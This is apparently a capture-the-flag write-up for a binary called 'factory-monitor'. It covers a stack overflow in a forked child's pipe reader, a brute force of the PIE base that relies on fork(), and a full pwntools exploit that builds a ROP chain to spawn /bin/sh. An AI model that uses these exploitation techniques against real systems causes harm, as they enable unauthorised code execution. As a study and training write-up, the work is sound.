





### I. check mitigation
```C
└─$ checksec --file=factory-monitor
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
    Debuginfo:  Yes
    
└─$ file factory-monitor
	factory-monitor: ELF 64-bit LSB pie executable, x86-64, version 1 (GNU/Linux), static-pie linked, BuildID[sha1]=008725930ea8f340dcf34257ebd53ed1be30cc70, for GNU/Linux 3.2.0, with debug_info, not stripped    
```
### II. IDA

```C
int __cdecl machine_main_demo(Machine *machine, void *arg)
{
  int v2; // eax
  int v3; // r8d
  int v4; // r9d
  int v6; // r8d
  int v7; // r9d
  int v8; // r8d
  int v9; // r9d
  int v10; // r8d
  int v11; // r9d
  char arga; // [rsp+0h] [rbp-120h]
  char msg[256]; // [rsp+10h] [rbp-110h] BYREF
  size_t len; // [rsp+110h] [rbp-10h]
  int rc; // [rsp+118h] [rbp-8h]
  int default_exit; // [rsp+11Ch] [rbp-4h]

  default_exit = (int)arg;
  v2 = getpid();
  dprintf(machine->pipe[1], (unsigned int)"ready:%s pid=%d\n", (_DWORD)machine, v2, v3, v4, (char)arg);
  while ( 1 )
  {
    while ( 1 )
    {
      rc = read_line_fd(machine->pipe[0], msg); // overflow
      if ( rc <= 0 )
        return 0;
      len = rc;
      if ( (unsigned int)j_strncmp_ifunc(msg, "ping", rc) )
        break;
      dprintf(
        machine->pipe[1],
        (unsigned int)"pong from %s\n",
        (_DWORD)machine,
        (unsigned int)"pong from %s\n",
        v6,
        v7,
        arga);
    }
    if ( !(unsigned int)j_strncmp_ifunc(msg, "exit", len) )
    {
      dprintf(
        machine->pipe[1],
        (unsigned int)"bye from %s\n",
        (_DWORD)machine,
        (unsigned int)"bye from %s\n",
        v8,
        v9,
        arga);
      return 0;
    }
    if ( !(unsigned int)j_strncmp_ifunc(msg, "fail", len) )
      break;
    dprintf(
      machine->pipe[1],
      (unsigned int)"echo[%s]: \n",
      (_DWORD)machine,
      (unsigned int)"echo[%s]: \n",
      v10,
      v11,
      arga);
    write_all(machine->pipe[1], msg, len);
    write_all(machine->pipe[1], "\n", 1uLL);
  }
  dprintf(machine->pipe[1], (unsigned int)"failing %s with code %d\n", (_DWORD)machine, default_exit, v10, v11, arga);
  return default_exit;
}
```
### III. analyze
- this is a CLI simulation chall, no libc statically linked, zero info leaks
- there is only one overflow bug in `machine_main_demo()`. the child process reads from pipe until `\n`, allowing to overflow buf
- `send <id> <msg>` w msg more than 0x118 bytes, it overflows and overwrite saved rbp and rip in child process

- and look at `strncmp`, it will compare until `\00`. it means when we send `fail\x00` + `payload`, it still passes and print `failing ...` to pipe instead of `echo` and write `msg` to pipe

- and in `cli_recv`, if pipe is not empty (`ready >= 0`), it will read (`buf`) and bof bug will crash the program if garbage in pipe overflows stack of parent process

- to avoid this, we will use `recv(1, b'1000')` to consume this garbage
- parent process spawns a child process (new machine) via `fork()` upon `start <id>` and communicates through 2 pipes (`send` and `recv`)
- machine follows a lifecycle to set up and destroy: `start` -> `create` -> `stop` -> `cleanup` -> `deinit`(`UNUSED` -> `INITIALIZED` -> `RUNNING` -> `EXIT` -> `INITIALIZED` -> `UNUSED`)
- sending msg other than `ping`, `fail`, `exit` triggers `echo[...]` print and ret2loop. sending `fail` or `exit` breaks loops and execv `ret`, triggering rop chain 
- `fork()` will create new child process by duplicating parent one (source: [fork](https://man7.org/linux/man-pages/man2/fork.2.html)):
```C
The child process and the parent process run in separate memory spaces. At the time of fork() both memory spaces have the same content. Memory writes, file mappings (mmap(2)), and unmappings (munmap(2)) performed by one of the processes do not affect the other.

The child process is an exact duplicate of the parent process except for:
	 •  The child has its own unique process ID, and this PID does not match the ID of any existing process group (setpgid(2)) or session.
	 
Note the following further points:
     •  The child inherits copies of the parent's set of open file descriptors. Each file descriptor in the child refers to the same open file description (see open(2)) as the corresponding file descriptor in the parent. This means that the two file descriptors share open file status flags, file offset, and signal-driven I/O attributes (see the description of F_SETOWN and F_SETSIG in fcntl(2)).
```
- it means that bc `fork()` duplicates parent's memory space, child inherits the exact ASLR/PIE layout. if child crashes, parent still survives, meaning PIE base remains static across attempts
- `fork()` also duplicates all file descriptors (fd). if forget to explicitly `close(0)` (stdin) and `close(1)` (stdout) in the child process, both the parent CLI and newly spawned `/bin/sh` shell are concurrently listening, which causes i/o race condition (though there's `close` in `machine_cleanup`, we got shell and couldnt use `cleanup` in CLI anymore)
```C
rc = read_line_fd(machine->pipe[0], msg); // bof
dprintf(machine->pipe[1], ...);
// forget to close pipes
```
- we can use `recv` to prevent parent and child process from fighting over data stream, for eg `recv(1, b'999999')` in parent process
- now we only need to find binary base and place rop chain in saved rip
- w 2 `while` loops in `machine_main_demo()`, we will use bof to test each byte of saved rip to see whether it will exit either sucessully or w error
- the goal is to set saved rip = `exit`, which is at `machine_start()`

- and bc last 1.5 bytes is fixed, we will only need to brute force 4.5 bytes, and the 6th bytes usually ranges from 0x70 to 0x80, we will test this range first
- and we use `monitor` to check whether machine exited

-> overall, since we have a bof bug, cant leak addr but have some gadgets including `syscall`, the path will be:
**brute force saved rip via `fork()` to get binary base -> bof -> ret2syscall using ROP** 
### IV. PoC
```Python
#!/usr/bin/env python3
from pwn import *
import binascii
import sys

exe_path = './factory-monitor'
HOST = 'example.com'
PORT = 1337

exe = ELF(exe_path, checksec=False)
context.binary = exe
context.terminal = [
    'cmd.exe', '/c', 'start',
    'wt.exe', '-w', '0', 'split-pane', '-V',
    '-d', '.',
    'wsl.exe',
    '-d', 'kali-linux',
    'bash', '-c'
]

def start():
    if args.REMOTE:
        return remote(HOST, PORT)
    p = process(exe.path)
    return p

p = start()

def sla(prompt, data):
    p.sendlineafter(prompt, data)
def sa(prompt, data):
    p.sendafter(prompt, data)
def s(prompt):
    p.send(prompt)
def sl(data):
    p.sendline(data)
def rcu(data):
    return p.recvuntil(data)
# ============================EXPLOIT============================
# cmds
def create(name):
    sla(b'factory> ', b"create " + name)
def start(id):
    sla(b'factory> ', f"start {id}".encode())
def stop(id):
    sla(b'factory> ', f"stop {id}".encode())
def monitor(id):
    sla(b'factory> ', f"monitor {id}".encode())
def cleanup(id):
    sla(b'factory> ', f"cleanup {id}".encode())
def deinit(id):
    sla(b'factory> ', f"deinit {id}".encode())
def send(id, msg):
    sla(b'factory> ', f"send {id} ".encode() + msg)
def recv(id, timeout=b""):
    cmd = f"recv {id}".encode()
    if timeout:
        cmd += b" " + timeout
    sla(b'factory> ', cmd)

# payload

def check(target, choice):
    test = bytes(target + [choice])
    payload = b'B' * 0x118 + test
    if b'\n' in payload:
        return None
    send(0, payload)
    send(0, b'fail')
    time.sleep(0.5)
    monitor(0)
    resp = p.recvuntil(b'factory> ', timeout=5)
    correct = b'exited with status' in resp or b'exited successfully' in resp
    if b'Restarting' in resp or b'exited successfully' in resp:
        if b'exited successfully' in resp:
            sl(b'start 0')
            rcu(b'factory> ')
        sl(b'recv 0 1000')
    return correct

def brute_force():
    log.info("=== BRUTE FORCE ===")
    create(b"A"*8)
    start(0)
    recv(0, b'1000') # clean pipe
    
    target = [0x57]
    
    for pos in range(1, 6):
        if pos == 1:
            choices = [(n*16 + 0xb4) & 0xff for n in range(16)]
        elif pos == 5:
            choices = list(range(0x70, 0x80)) + list(range(0, 0x70))
        else:
            choices = list(range(256))
            
        choices = [c for c in choices if c != 0x0a]
        log.info(f"byte {pos + 1}...")
        
        for choice in choices:
            if check(target, choice):
                target.append(choice)
                log.success(f"-> byte {pos + 1} = 0x{choice:02x}")
                break
        else:
            log.error("failed")    
            sys.exit(1)
            
    pie_base = u64(bytes(target) + b'\x00'*2) - 0xb457
    log.success(f"BINARY BASE: {hex(pie_base)}")
    return pie_base

def execv():
    log.info("=== ROP ===")
    # gadgets 
    syscall = 0x00000000000097f9 + exe.address
    pop_rdi_rbp = 0x000000000000c028 + exe.address
    pop_rsi_rbp = 0x0000000000015b26 + exe.address
    pop_rdx = 0x00000000000836dc + exe.address # pop rdx ; xor eax, eax ; pop rbx ; pop r12 ; pop r13 ; pop rbp ; ret
    pop_rax = 0x0000000000040dcb + exe.address
    machine_addr = 0xc5a20 + exe.address
    name = b'/bin/sh\x00'
    if args.GDB:
        gdbscript = f'''
        set follow-fork-mode child
        b*fork+73
        b*main+1022
        continue
        '''
        gdb.attach(p, gdbscript=gdbscript)
        input("=== enter to continue ===")
        time.sleep(1)
    create(name)
    start(1)
    recv(1, b'1000')
    
    payload = flat(
        pop_rdi_rbp, p64(machine_addr+0x48), p64(0x0),
        pop_rsi_rbp, p64(0x0), p64(0x0),
        pop_rdx, p64(0x0), p64(0x0)*4,
        pop_rax, 0x3b,
        syscall
    )

    sl(b'send 1 fail\x00' + b'A'*275 + payload + b'\nrecv 1 1000\nrecv 1 9999999')
    time.sleep(0.5)

exe.address = brute_force()
execv()

p.interactive()
```